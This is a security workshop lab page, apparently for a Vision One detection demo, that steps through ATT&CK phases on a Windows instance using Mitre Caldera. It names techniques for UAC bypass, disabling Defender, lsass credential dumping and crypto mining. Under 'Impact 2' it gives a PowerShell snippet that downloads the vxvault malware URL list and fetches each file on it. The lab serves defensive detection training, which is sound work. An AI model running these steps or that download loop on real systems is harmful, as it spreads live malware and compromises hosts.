 ```yaml
---
title: "Windows"
chapter: false
weight: 52
pre: "<b>5.2 </b>"
---
```


<b>Before you start this lab, make sure the C1WS Policy attached to the Windows Instance is the "demo > visionone > prevention mode" policy.</b>

### ATT&CK Phases
#### Reconnaissance
This step was skipped because we know the target of our attack (Windows and Linux Instances)

---
#### Resource Development
We used Mitre Caldera to generate the payloads used to compromise our targets

---
#### Initial Access and Execution
We deployed the malicious payloads manually to the Windows and Linux Instances. In a Real-world scenario, we could have used a Malicious Email message, including the link to the malicious files. In this way, compromising the target computers.

---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="ECAPmLFwiXY" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="o-hCzQjhNLs" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="w5pnVRvGS6k" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

{{< youtube id="syO6uPBEhQc" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Find System Network Connections (T1049) - Find System Network Connections". You may find additional targets for this attack (Lateral Movement for example).

{{< youtube id="ReflY0x4k5A" >}}

---
#### Lateral Movement
Under development..


---
#### Command & Control
You can use the same tatics used on the step "Persistence", or even using other customm tools to interact with the C&C Server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.

{{< youtube id="X2zpomhJNLo" >}}

---
#### Exfiltration
Under development..

---
#### Impact 1
Using Mitre Caldera, you can deploy the Techniques "Crypto (Monero) Mining (T1496) - Download and execute Monero miner (xmrig) for 1 minute" and "Leave note (T1491) - Create a text file for the user to find". With this two techniques, you can create an impact that will affect the performance and expose the affected server to other risks, and also leave a note to tell the target of the attack about your intentions and what you have done so far.

{{< youtube id="LDqfBhn0DyQ" >}}

---
#### Impact 2
Under development..

        New-Item -Path c:\tmp -ItemType Directory;
        Invoke-WebRequest http://vxvault.net/URL_List.php -OutFile c:\tmp\urls.txt;
        Set-Location -Path c:\tmp;
        foreach($line in Get-Content c:\tmp\urls.txt) {Invoke-WebRequest -Uri $line -OutFile $(Split-Path -Path $line -Leaf)}

---
## Reviewing the Detections 
Review your Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.